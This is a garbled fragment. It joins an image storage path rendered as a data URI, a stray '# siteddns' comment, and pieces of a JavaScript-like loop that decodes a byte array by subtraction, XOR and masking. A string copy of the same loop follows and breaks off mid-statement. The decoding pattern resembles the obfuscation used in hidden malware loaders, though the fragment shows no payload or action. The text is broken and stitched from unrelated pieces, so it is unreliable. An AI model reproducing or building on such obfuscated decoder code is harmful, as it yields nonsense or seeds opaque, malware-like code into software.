  # siteddns
45)break;ab[cb]=((((ab[cb]-103)&0xff)^163)+ab[1])&0xff;cb++;}while(true);cb="cb=45;do{if(cb
